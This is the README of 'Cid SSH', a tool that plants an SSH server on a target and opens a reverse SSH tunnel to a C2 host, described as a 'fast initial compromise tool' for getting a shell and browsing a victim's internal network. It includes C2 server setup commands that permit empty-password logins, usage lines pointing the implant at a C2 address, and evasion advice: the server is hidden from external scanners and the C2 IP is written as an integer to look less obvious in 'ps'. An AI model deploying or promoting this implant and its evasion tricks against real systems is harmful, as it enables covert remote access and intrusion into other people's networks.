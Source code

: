 <p align="center">
  <img src="http://equestrianstatue.org/wp-content/uploads/2016/04/Spain-Burgos-El-Cid-4-525x394.jpg">
</p>

<p align="center">
  <a href="https://github.com/RedRangerz/Cid-SSH/actions?query=workflow%3A%22Build+for+Windows%22"><img alt="Build for Windows" src="https://github.com/RedRangerz/Cid-SSH/workflows/Build%20for%20Windows/badge.svg"></a>
  <a href="https://github.com/RedRangerz/Cid-SSH/actions?query=workflow%3A%22Build+for+macOS%22"><img alt="Build for macOS" src="https://github.com/RedRangerz/Cid-SSH/workflows/Build%20for%20macOS/badge.svg"></a>
  <a href="https://github.com/RedRangerz/Cid-SSH/actions?query=workflow%3A%22Build+for+Linux%22"><img alt="Build for Linux" src="https://github.com/RedRangerz/Cid-SSH/workflows/Build%20for%20Linux/badge.svg"></a>
</p>

# Cid SSH

Let's face it, there is no better shell than SSH. It just not only provides a rich encrypted shell communication but it can be used to create a socks proxy to browse the internal network of a system.

**CidSSH** is a statically compiled tool (no dependencies needed) that can be used to create an SSH server and a SSH client within just one binary. It will firstly, create RSA certificates, spin up an SSH server (listening in `localhost` and by default on port 2222),and finally create a reverse SSH tunnel with a C2 host specify by command lone. Due to the fact that the SSH server listens at `localhost`, external scanners won't detect it. 

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple, not interactive shell.


## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of these commands:

```
sudo useradd anonymous
echo anonymous:U6aMy0wojraho | sudo chpasswd -e
sudo usermod -s /bin/false anonymous # change /bin/false to /path/to/Cid-Controller to use Cid-Controller
```

Allow blank passwords for SSH sessions for the `anonymous` user and restrict `anonymous` user to allow only reverse port forwarding:

```
sudo cat <<EOT >> /etc/ssh/sshd_config
PermitEmptyPasswords yes
ClientAliveInterval 120
ClientAliveCountMax 3

Match User anonymous
   AllowTcpForwarding remote
   X11Forwarding no
   PermitTunnel no
   GatewayPorts no
   AllowAgentForwarding no
   AllowStreamLocalForwarding no
EOT
```

Restart sshd:
```sudo systemctl restart ssh```

### Prebuilt binaries
You can just use the prebuilt binaries that are in [Release](https://github.com/RedRangerz/Cid-SSH/releases). They are ready to roll.

If you want to compile from source keep reading below.

## Using it

Defaults: user is `anonymous`.

Syntaxis:

`Cid-SSH.exe [user@]C2_hostname`

Examples:
```
Cid-SSH.exe 192.168.15.135
Cid-SSH.exe user@192.168.15.135
Cid-SSH.exe -t 3232239495
```

You could also specify the IP address as an integer so it's not that obvious if `ps` is run:
```
Cid-SSH.exe -t 3232239495
```
[Page to do the conversion](http://www.aboutmyip.com/AboutMyXApp/IP2Integer.jsp).

## Compilation

You can find more info about compilation [here](COMPILATION.md).

## Authors
- Alberto Garcia Illera (alberto.garcia@getcruise.com)
- Francisco Oca (foca@getcruise.com)
- Bert JW Regeer (bert.regeer@getcruise.com)
